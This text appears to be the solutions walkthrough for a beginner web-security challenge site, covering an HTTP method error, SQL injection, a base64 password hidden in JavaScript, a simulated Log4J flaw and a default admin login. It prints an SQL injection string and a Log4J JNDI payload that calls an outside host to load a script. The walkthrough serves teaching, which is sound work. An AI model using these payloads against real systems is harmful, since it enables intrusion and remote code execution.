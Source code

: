 #### Challenge 11 - HTTP mistake
If you take a look on developer tools, you'll see that even with correct password the HTTP request end with `405` error.
The solution is in the error message: `Method not allowed`. Try some other methods (preferably those better suited for
_authentication_ call) and see what happens.

#### Challenge 12 - SQL Injection
Simulated backend of this application creates SQL query like this:

`txtSQL = "SELECT * FROM Users WHERE UserId = " + txtUserId;`.

So if you pass any id, but add `OR` clause with true value it may go through. Remember to surround SQL functions with 
quotes.
Example: `dadadad'OR'12'=='12`.

#### Challenge 13 - unprotected JS file
Password is hidden in java script file included to `index.html`. If you go there, you'll find an unused constant 
`passwd` which contains password encoded with base64.

#### Challenge 14 - Log4J vulnerability
This challenge simulates [CVE-2021-44228](https://owasp.org/blog/2021/12/13/Log4J-Alert). The correct answer would be
`${jndi:ldap://hackingsite.pl/myscript}`. This behavior is showed for example 
[in this youtube video](https://www.youtube.com/watch?v=0-abhd-CLwQ&ab_channel=MarcusHutchins).

#### Challenge 15 - URL Interpretation
There is indeed a admin panel. At the very same site, but with adding `/admin.html` to the URL. And the credentials 
are... `admin: admin` (who would have guessed??). After logging in you can see the user list, along with passwords.
I suppose it's easy from there.

